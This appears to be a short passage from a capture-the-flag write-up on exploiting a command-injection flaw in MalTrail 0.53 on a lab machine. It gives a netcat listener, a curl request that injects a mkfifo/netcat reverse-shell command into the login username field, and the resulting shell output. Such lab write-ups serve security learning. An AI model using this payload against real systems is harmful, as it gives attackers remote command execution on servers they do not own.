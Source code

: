 ![](/assets/attachments/Pasted%20image%2020240628051644.png)

## Exploitation

### MalTrail 0.53 RCE

The bucket name `mfaos3m` will need to be changed to match the one created above.

```shell
$ nc -nlvp 9090

$ curl 'http://sau.htb:55555/mfaos3m/login' --data 'username=;`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%25261|nc 10.10.14.87 9090 >/tmp/f`'

$ nc -nlvp 9090
listening on [any] 9090 ...
connect to [10.10.14.87] from (UNKNOWN) [10.129.229.26] 56694
/bin/sh: 0: can't access tty; job control turned off
$
```
